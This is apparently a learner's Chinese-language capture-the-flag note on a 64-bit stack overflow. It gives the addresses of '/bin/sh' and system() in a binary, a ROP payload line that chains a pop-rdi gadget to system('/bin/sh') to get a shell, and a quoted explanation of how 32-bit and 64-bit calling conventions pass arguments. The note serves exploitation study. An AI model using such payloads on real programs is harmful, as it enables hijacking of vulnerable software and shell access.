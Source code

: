 ![image-20220922104427790](../images/image-20220922104427790.png)

/bin/sh 0000000000600A90

System   000000000040063E 直接利用

![image-20220922105229344](../images/image-20220922105229344.png)



payload = b'a'*0x80 + p64(0xdeafbeef)+ p64(rdi_ret_addr) + p64(bin_addr)+ p64(system_addr)

为什么不对呢..rdi_ret_addr = 0x00000000004006b3 

为啥要加一个这个啊..

关键点在于32位和64位传递参数的时候是不同的，32位是所有的参数都入栈，而64位是从第一个到第六个依次保存在rdi，rsi，rdx，rcx，r8，r9这6个寄存器当中，从第7个参数开始后的所有参数才会通过栈传递。
链接：https://www.jianshu.com/p/23cb111bead5
